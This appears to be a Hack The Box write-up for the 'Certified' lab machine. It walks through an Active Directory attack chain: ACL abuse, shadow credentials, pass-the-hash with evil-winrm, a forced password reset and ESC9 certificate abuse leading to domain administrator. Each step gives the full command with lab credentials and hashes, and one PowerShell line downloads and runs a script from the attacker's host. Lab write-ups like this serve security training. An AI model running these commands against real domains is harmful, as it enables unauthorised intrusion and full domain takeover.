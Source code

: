 ```yaml
---
layout: post
title: "Certified"
date: 2024-12-28
categories: hackthebox
---
```


 g-afirst assumed breach scenario from HTB , no nmap this time the name of box is Certified from the name , I would assume the box is related to the ADCS , and the box will be DC 

`judith.mader:judith09`


![[Pasted image 20241104020425.png]]

we already have foothold , I will run bloodhound to hunt for interesting ACLs  


```bash
 nxc ldap 10.129.48.103 -u 'judith.mader' -p judith09 --bloodhound  -c  all  --dns-server 10.129.48.103
```


on bloodhound we can see that our user got some interesting ACLs 
![[Pasted image 20241104021536.png]]


### WriteOwner Abuse

this will allow us to change the owner of the group

first change the owner of group , to our user
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'MANAGEMENT'  certified.htb/'judith.mader':'judith09'
```

![[Pasted image 20241104022215.png]]

now we can grantee add member right to our controlled user 
```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:'judith09'
```

![[Pasted image 20241104022329.png]]

==Note: we can use the .bak file to restore the old state of the user== 

add our user to the Management group 
```bash
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```


we can verify , that the operation has been done completed successfully 

```bash
net rpc group members  "MANAGEMENT"  -U "certified.htb"/"judith.mader" -S "10.129.48.103"
```

### GenericWrite

now we are members of `MANAGEMENT` group , so we can abuse `GenericWrite` to take over management_svc  user 

![[Pasted image 20241104023652.png]]

I will use a shadow credential attack 
```bash
certipy shadow auto -u 'judith.mader@certified.htb' -p judith09  -account MANAGEMENT_SVC
```

![[Pasted image 20241104042657.png]]

==I had a CLock skew error , and I fixed using sudo ntpdate TARGET_IP==


### GenericAll

![[Pasted image 20241104042840.png]]

`management_svc` is member of remote management users so we can use `evil-winrm` to  get shell , on the machine 

```bash
evil-winrm -i 10.129.48.103 -H a091c1832bcdd4677c28b5a6a1295584 -u management_svc
```

![[Pasted image 20241104043050.png]]


we can use `GenericAll` to force change password of the `ca_operator` , to do that from  a powershell session , we will need `PowerView.ps1`

```Powershell
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.28:8080/PowerView.ps1')
```

```PowerShell
$UserPassword = ConvertTo-SecureString 'd0s3nt.was.here' -AsPlainText -Force

Set-DomainUserPassword -Identity ca_operator -AccountPassword $UserPassword 
```
 
![[Pasted image 20241104044409.png]]


### ESC9



enumerating for vulnerable template

```bash
certipy find -u 'ca_operator' -p 'd0s3nt.was.here'  -dc-ip 10.129.48.103  -vulnerable -stdout
```

![[Pasted image 20241104044856.png]]

ESC9 allow us to abuse the absence of the strong mapping  , for more check this https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7

to exploit this we need `GenericWrite\GenericAll` over any domain user , we will  use `management_svc` rights over `ca_operator`

update UPN to the administrator 
```bash
certipy account update   -u 'management_svc' -hashes ':a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn administrator@certified.htb
```

request a certificate using the `ca_operator` , the Upn we modified earlier will be used to map the certificate , so it will be issued with administrator privileges 
```bash
certipy req  -u 'ca_operator' -p d0s3nt.was.here  -dc-ip 10.129.48.103 -template CertifiedAuthentication -ca certified-DC01-CA
```

![[Pasted image 20241104045540.png]]

reset the Upn back , if we didn't reset it we will have problems using certificate to authenticate 

```bash
certipy account update   -u 'management_svc' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip 10.129.48.103 -user ca_operator -upn ca_operator@certified.htb
```



```bash
certipy auth -pfx administrator.pfx    -domain certified.htb -dc-ip 10.129.48.103
```

![[Pasted image 20241104045751.png]]



```bash
 impacket-psexec certified.htb/administrator@10.129.48.103 -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

![[Pasted image 20241104045830.png]]